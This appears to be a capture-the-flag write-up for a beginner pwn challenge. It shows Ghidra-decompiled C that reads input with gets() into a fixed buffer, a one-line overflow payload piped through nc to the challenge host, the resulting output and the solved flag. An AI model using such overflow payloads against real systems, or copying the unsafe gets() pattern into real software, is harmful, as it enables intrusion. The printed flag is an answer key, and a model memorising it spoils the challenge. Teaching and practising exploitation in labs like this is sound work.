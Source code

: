 ## pwn intended 0x1
The main idea finding the flag is Buffer Overflow.

#### Step-1:
I reversed the file with Ghidra.

```c
undefined8 main(void)

{
  char local_38 [44];
  int local_c;

  local_c = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Please pour me some coffee:");
  gets(local_38);
  puts("\nThanks!\n");
  if (local_c != 0) {
    puts("Oh no, you spilled some coffee on the floor! Use the flag to clean it.");
    system("cat flag.txt");
  }
  return 0;
}
```

#### Step-2:
Clearly, this was a case for Buffer Overflow.

A simple command to overflow the buffer would give us the flag.

`python -c 'print"A"*45' | nc chall.csivit.com 30001`

<i> The piping done other way round doesn't help though. </i>

Output:

```bash
Please pour me some coffee:

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```

Voila! There we have our flag.

#### Step-3:
Finally the flag becomes:
`csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}`